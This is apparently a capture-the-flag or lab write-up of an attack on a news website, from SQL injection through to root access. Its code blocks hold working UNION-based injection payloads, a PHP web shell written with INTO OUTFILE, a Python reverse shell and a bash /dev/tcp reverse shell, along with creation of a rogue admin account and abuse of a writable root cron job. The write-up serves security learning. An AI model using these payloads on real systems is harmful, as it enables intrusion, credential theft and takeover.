






# Write-up: SQL Injection to Reverse Shell and Root Access

In this write-up, I’ll walk through how I explored a SQL Injection vulnerability that led to a reverse shell, privilege escalation, and eventually full administrative control over the system.

This is my first write-up, so go easy on me.

### Discovering the SQL Injection

Right when I launched the lab, this search field caught my attention. Using a simple payload, I noticed all records were being listed:

```sql
' OR 1=1; -- -
```



This behavior clearly pointed to a classic SQLi vulnerability, and hinted that a `UNION SELECT` injection could work.

To better understand the query structure, I used `ORDER BY` to figure out how many columns were accepted:

```sql
' ORDER BY <num>; -- -
```

The result showed that there were **7 columns**, which allowed me to build full payloads like this:

```sql
' UNION SELECT 1, 2, 3, 4, 5, 6, 7; -- -
```

### Enumerating the Database

With the structure mapped out, I started enumerating internal data. First step: find the active database name.

```sql
' UNION SELECT 1, DATABASE(), 3, 4, 5, 6, 7; -- -
```

**Result:** `news`

With that info, I extracted the table names:

```sql
' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 
  FROM information_schema.tables 
  WHERE table_schema = "news"; -- -
```

**Tables found:**

- tbladmin
- tblcategory
- tblcomments
- tblpages
- tblposts
- tblsubcategory

### Extracting Admin Credentials

Next, I checked the columns in `tbladmin`, hoping to find some credentials:

```sql
' UNION SELECT 1, column_name, 3, 4, 5, 6, 7 
  FROM information_schema.columns 
  WHERE table_name = "tbladmin"; -- -
```

**Columns found:**

- id
- AdminUserName
- AdminPassword
- AdminEmailId
- Is_Active
- CreationDate
- UpdationDate

I built a query to extract email and password:

```sql
' UNION SELECT 1, AdminEmailId, 3, 4, 5, AdminPassword, 7 FROM tbladmin; -- -
```

**Credentials:**

- Email: `admin@uhclabs.com`
- Password hash: `$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`

Unfortunately, the password was hashed with bcrypt, and brute-forcing it didn’t work.

### Finding the Admin Panel

Even without the password, I tried locating the admin panel in case I could do something useful with a valid username later on.

```bash
wfuzz -c -z file,raft-large-directories-lowercase.txt 
--hc 404 http://172.16.11.54/FUZZ
```

Among the responses, I found `/admin`:

```bash
000000003:   301    "admin"
```

Accessing `http://172.16.11.54/admin`, I got the login page.



### Creating a web shell

Since I couldn't log in, I tried to escalate via the SQLi vulnerability. I attempted to write a PHP web shell like this:

```sql
' UNION SELECT 1, 2, 3, 4, 5, 6, "<?php 
	system($_GET[\"cmd\"]);
?>" INTO OUTFILE "/var/www/html/shell.php"; -- -
```

… but nothing happened. No shell. Probably lacked write permissions to the root web directory.

Looking back at the `wfuzz` output, I noticed some other directories:

```bash
000000003:   301    "admin"
000000003:   301    "css"
000000003:   301    "js"
000000003:   301    "plugins"
000000003:   301    "images"
000000003:   301    "includes"
000000003:   301    "mail"
000000003:   301    "vendor"
```

Almost giving up, I tried writing the shell inside `/includes` — and it worked!



### Getting a reverse shell

Now with the web shell in place, I aimed for a reverse shell.

First step: check what languages the server supports. Since it was a Linux server, Python seemed like a good candidate.


Found Python. Time to craft the payload:

```bash
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("my-ip", 9999));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
subprocess.call(["/bin/bash","-i"]);'
```

Triggered the payload via the web shell… and got a reverse shell:


… Then I stabilized it:

```python
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl + Z
stty raw -echo
fg

export TERM=xterm
```

### Gaining Admin Access

With shell access, I started enumerating files and permissions:



No write permissions, but I could **read everything**. Time to look for hidden config files:

```bash
find . -iname '*config*'
```

Gotcha

```bash
admin/includes/config.php
...
```

Inside it, I found the following credentials:

```bash
<?php
define('DB_SERVER','localhost');
define('DB_USER','root');
define('DB_PASS' ,'');
define('DB_NAME','news');
...
```

I connected to the database using these credentials:

```bash
mysql -u root news
```

Now I wanted to create an admin user. Since passwords were hashed with `bcrypt`, I used PHP to generate one:

```bash
<?php
$password = '123';
$hashedPassword = password_hash($password, PASSWORD_BCRYPT);
echo $hashedPassword;
```

Then, I created the user:

```bash
INSERT INTO tbladmin VALUES(0, 
	"lj0s", 
	"$2y$10$Y1Nauw9yNdSfdcCSIYsLq.YlAkqug4M8iVcl241n76gsxN1qujHq2", 
	"lj0s@lj0s.com", 
	1, 
	"2018-05-27 17:51:00", 
	"2018-05-27 17:51:00"
	);
```

Logged into the panel… and it worked!



### Privilege Escalation with LinPEAS

Now it was time to go for root. I ran **LinPEAS** to hunt for privilege escalation paths.

One thing stood out: a suspicious cron job:

```bash
* * * * * root /opt/lion/lion.backup.sh
...
```

If I had write access to that script… jackpot.

Checked permissions:

```bash
ls -l /opt/lion/lion.backup.sh
-rwxr-xrwx 1 root root 377 Mar 19  2021 /opt/lion/lion.backup.sh
```

Perfect. I edited the script to include a reverse shell payload:

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

… And got my shell… as **root**!



### TL;DR

- Classic SQLi vulnerability led to full DB control.
- Couldn’t crack the bcrypt hash but discovered useful credentials in a config file.
- Wrote a PHP shell using `INTO OUTFILE` in a writable directory.
- Got a reverse shell, found a writable cron job, and escalated to root.